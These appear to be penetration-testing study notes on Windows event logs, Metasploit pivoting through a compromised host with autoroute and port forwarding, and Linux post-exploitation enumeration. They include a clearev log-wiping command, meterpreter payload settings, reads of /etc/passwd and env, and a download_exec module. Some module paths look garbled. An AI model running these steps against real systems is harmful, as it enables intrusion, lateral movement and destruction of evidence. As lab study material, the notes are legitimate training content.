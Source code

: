 Application Logs: stores app/prog events like startups, crashes etc
System Logs: Stores system events like startup, reboots etc
Security Logs: Stores security events like password changes, authentication failures etc

* logs can be viewed using Event Viewer on Windows
* This is a first step that a investigator will take, review event logs

from within meterpreter:

* clearev: will clear all the event logs. Needs admin access

### Pivoting

use of compromised host to attack other hosts in internal network

![pivoting](/assets/images/pivoting.png)

* From the diagram, only vitcim-1 is visible to attacker system. Victim-2 can only be accessed through victim-1's private network
* Exploiting victim-1
    * db_nmap -sV victim-1
    * use post/windows/http/badblue_passthru; run
        * results in meterpreter
    * from meterpreter
        * ipconfig: identify victim's address and subnet
        * add autoroute -s victim-1's_IP_subnet
            * This autoroute will cater to all the metasploit modules, the victim-2's Ip can now be reached by any native metasploit module
            * We won't be able to use nmap service detection on victim-2, because it is not a metasploit native module
        * portfwd add -l 1234 -p 80 -r victim-2's_IP
            * This will port forward the 80 on victim-2's IP to attacker's local port 1234
            * This will allow nmap service detection
                * db_nmap -sV -p 1234 localhost (Since the victim-2's 80 is forwarded to localhost:1234)
* victim-2 exploitation
    * db_nmap -sV -p 1234 localhost
    * use post/windows/http/badblue_passthru
        * set RHOSTS victim-2
        * set LPORT <use a diff port than session 1>
        * keep the RPORT to 80, because autoroute is already configured
        * set payload windows/meterpreter/bind_tcp (reverse_tcp will not work, need research on why)
        * run
            * results in a meterpreter session

## Linux Post Exploitation

### linux post exploitation modules

* local linux enum - manual:
    * cat /etc/passwd
    * cat /etc/*release
    * uname -a
    * env
    * netstat -antp
* modules
    * post/linux/gather/enum_configs
    * post/multi/gather/env
    * post/linux/gather/enum_network
    * post/linux/gather/enum_protections
    * post/linux/gather/enum_system
    * post/linux/gather/checkcontainer
    * post/linux/gather/checkvm
    * post/linux/gather/enum_users_history
    * post/multi/manage/system_session
    * post/linux/manage/download_exec